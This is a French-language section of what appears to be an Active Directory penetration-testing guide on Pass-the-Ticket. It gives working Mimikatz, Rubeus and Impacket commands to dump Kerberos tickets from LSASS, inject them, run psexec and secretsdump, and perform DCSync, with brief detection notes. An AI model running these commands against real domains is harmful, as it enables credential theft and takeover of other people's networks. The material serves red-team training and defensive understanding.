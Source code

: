 # VI.B. Pass-the-Ticket (PtT)

Pass-the-Ticket (PtT) est une technique de post-exploitation où un attaquant utilise un ticket Kerberos (TGT ou TGS) volé ou forgé pour s'authentifier auprès de services ou de machines au nom de l'utilisateur associé à ce ticket. Cela permet d'accéder à des ressources sans connaître le mot de passe en clair de l'utilisateur.

## Prérequis
*   Obtention d'un ticket Kerberos valide. Les tickets peuvent être :
    *   Extraits de la mémoire LSASS d'une machine compromise (ex: TGT d'un admin de domaine).
    *   Obtenus via Overpass-the-Hash (voir [VI.A](./A-pass-the-hash.md)).
    *   Forgés (Golden Tickets, Silver Tickets - voir [VIII.C Attaques Kerberos Avancées](../08-domination-domaine/C-attaques-kerberos-avancees.md)).
    *   Interceptés (moins courant, mais possible dans certains scénarios de Man-in-the-Middle).

## Outils et Commandes

*   **Mimikatz (Windows) :**
    Mimikatz est l'outil de prédilection pour extraire et injecter des tickets.

    1.  **Extraction de Tickets :**
        ```
        privilege::debug
        sekurlsa::tickets /export
        # Les tickets sont exportés au format .kirbi dans le répertoire courant.
        # Identifier les tickets intéressants (ex: krbtgt, cifs/hostname, host/hostname).
        ```

    2.  **Injection de Tickets (Pass-the-Ticket) :**
        ```
        privilege::debug
        # Injecter un ticket spécifique depuis un fichier .kirbi
        kerberos::ptt <CHEMIN_VERS_LE_FICHIER_TICKET.kirbi>
        # Après injection, la session courante peut utiliser ce ticket.
        # Exemple :
        # klist (pour vérifier les tickets chargés)
        # dir \\<MACHINE_CIBLE_FQDN>\C$
        ```
        Si vous avez plusieurs tickets pour différents utilisateurs/services, vous pouvez les injecter et `klist` montrera la pile de tickets. Windows utilisera le ticket approprié.

*   **Rubeus (Windows) :**
    Rubeus est également très puissant pour manipuler les tickets Kerberos.

    1.  **Extraction de Tickets (Dump) :**
        ```powershell
        # Dumper les tickets de la session courante (ou de toutes les sessions si admin)
        Rubeus.exe dump /nowrap
        # Pour un LUID de session spécifique
        # Rubeus.exe dump /luid:<LUID> /nowrap
        # Les tickets sont affichés en Base64. Copier la partie Base64 du ticket souhaité.
        ```

    2.  **Injection de Tickets (Pass-the-Ticket) :**
        ```powershell
        # Injecter un ticket depuis sa représentation Base64
        Rubeus.exe ptt /ticket:<TICKET_EN_BASE64>
        # Exemple :
        # klist
        # dir \\<MACHINE_CIBLE_FQDN>\C$
        ```
        Rubeus peut aussi utiliser des fichiers `.kirbi` :
        ```powershell
        # Rubeus.exe ptt /ticket:C:\chemin\vers\ticket.kirbi
        ```

*   **Impacket (Linux - `ticketer.py` pour forger, `getST.py` pour demander des TGS, `psexec.py` etc. avec Kerberos) :**
    Si l'attaquant est sur une machine Linux et a obtenu un TGT (ex: via Overpass-the-Hash ou extraction), il peut configurer son client Kerberos pour l'utiliser.

    1.  **Configuration de Kerberos sur Linux :**
        *   S'assurer que `/etc/krb5.conf` est correctement configuré pour le domaine cible.
        *   Stocker le TGT (souvent au format .ccache) dans une variable d'environnement :
            ```bash
            export KRB5CCNAME=/chemin/vers/le/fichier.ccache
            ```
    2.  **Utilisation avec les outils Impacket :**
        Beaucoup d'outils Impacket supportent l'authentification Kerberos. Si `KRB5CCNAME` est défini et contient un TGT valide, ils l'utiliseront.
        ```bash
        # -k : Utiliser Kerberos
        # -no-pass : Ne pas demander de mot de passe (car on utilise le ticket)
        psexec.py <DOMAINE_FQDN>/<UTILISATEUR_DU_TICKET>@<MACHINE_CIBLE_FQDN> -k -no-pass
        secretsdump.py <DOMAINE_FQDN>/<UTILISATEUR_DU_TICKET>@<MACHINE_CIBLE_FQDN> -k -no-pass
        ```

## Scénarios Courants

*   **Utilisation d'un TGT d'Administrateur de Domaine :**
    Un TGT d'admin de domaine permet d'accéder à pratiquement n'importe quelle ressource du domaine. Après avoir injecté un tel TGT, l'attaquant peut :
    *   Accéder aux partages administratifs (`C$`, `ADMIN$`) sur n'importe quelle machine jointe au domaine.
    *   Utiliser `psexec`, `wmiexec`, WinRM pour exécuter des commandes sur d'autres machines.
    *   Effectuer un DCSync pour dumper tous les hashes du domaine.

*   **Utilisation d'un TGS pour un Service Spécifique :**
    Si un TGS pour un service (ex: `CIFS/serveur_fichier.domaine.local`) est volé, il peut être utilisé pour accéder à ce service spécifique.
    ```powershell
    # Avec Rubeus, après avoir injecté le TGS pour CIFS/serveur.domaine.local
    # dir \\serveur.domaine.local\partage
    ```

## Considérations
*   **Durée de Vie des Tickets :** Les tickets Kerberos ont une durée de vie limitée (configurable par GPO, par défaut 10 heures pour les TGTs). Les tickets volés ne seront valides que pendant leur durée de vie restante.
*   **Détection :**
    *   L'extraction de tickets depuis LSASS est souvent détectée par les EDRs.
    *   L'utilisation anormale de tickets (ex: un ticket d'un utilisateur A utilisé depuis une machine B où A ne se connecte jamais) peut être suspecte.
    *   Les Golden/Silver tickets ont des caractéristiques qui peuvent être détectées (voir section sur les attaques Kerberos avancées).
*   **Protection LSA (RunAsPPL) :** Peut rendre l'extraction de tickets plus difficile.

Pass-the-Ticket est une technique puissante, en particulier lorsqu'elle est combinée avec des attaques de forge de tickets comme les Golden Tickets. 